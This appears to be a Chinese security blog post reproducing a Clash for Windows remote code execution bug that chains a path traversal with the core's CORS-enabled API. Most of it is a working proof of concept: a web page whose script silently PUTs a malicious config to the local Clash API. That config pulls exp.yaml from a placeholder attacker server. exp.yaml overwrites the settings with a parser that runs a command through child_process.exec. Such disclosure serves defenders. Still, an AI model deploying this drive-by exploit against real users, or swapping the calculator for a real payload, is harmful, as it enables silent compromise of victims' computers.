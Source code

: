  **2、 CFW路径穿越致使parsers JS RCE**

![](https://gitee.com/fuli009/images/raw/master/public/20230629175645.png)

 ****

参考文章：  
https://github.com/Fndroid/clash_for_windows_pkg/issues/3891  
视频：  
https://bulianglin.com/archives/clashrce.html

 **  
**

  

 **复现**

  
  
  
![](https://gitee.com/fuli009/images/raw/master/public/20230629175629.png)  

  

根据大佬对源码的分析，课代表总结一下，因为是clash的路径穿越，导致clash for
windows的配置文件被覆盖，这个漏洞可以在任何clash有权限的位置写入文件，会造成一些安全问题，由于是内核漏洞Windows Linux
MacOS只要是使用clash内核通通都中招了，4月16号
clash发布了一个小版本更新，修复了路径穿越的漏洞，但很多人并没有意识到这个安全问题，可能不会升级到新版本，所以还是有必要让大家知晓一下，另外clash.meta是clash的分支项目，所以也存在路径穿越的漏洞，并且由于clash可以通过RESTful
api来控制内部设置，并且支持CORS，CORS意为跨域资源共享，也就是不同的域名可以共享相同的资源，导致可以在任何网站上调用Clash的API，就导致了无感知执行任意命令。  
如下给出了一份测试代码

 **1、Win POC**  

  

 **index.html:**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     <!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta http-equiv="X-UA-Compatible" content="IE=edge">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Breaking Clash</title></head><body>    <h1 align="center">Breaking Clash</h1>    <p align="center"> <img src="https://raw.githubusercontent.com/Dreamacro/clash/master/docs/logo.png"></p>    <p>        <script>                    const data = {                payload: "mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http:// {{yourevilser}}/exp.yaml'\n    interval: 3600\n    path: ../cfw-settings.yaml\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"            };            fetch('http://127.0.0.1:58383/configs?force=true', {                method: 'PUT',                headers: {                    'Content-type': 'application/json; charset=utf-8',                },                body: JSON.stringify(data),            }).then(response => response.json())                .then(data => {                    console.log('Success:', data);                })                .catch((error) => {                    console.log('Error:', error);                });</script></body></html>  
    

 ****

 **exp.yaml ：**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    payload:  - DOMAIN-SUFFIX,acl4.ssr,全球直连showNewVersionIcon: truehideAfterStartup: falserandomControllerPort: truerunTimeFormat: "hh : mm : ss"trayOrders:  - - icon  - - status    - traffic    - texthideTrayIcon: falseconnShowProcess: trueshowTrayProxyDelayIndicator: trueprofileParsersText: >-  parsers:    - reg: .*      code:         module.exports.parse = async (raw, { axios, yaml, notify, console }, { name, url, interval, selected }) => {          require("child_process").exec("calc.exe");          return raw;          }  
    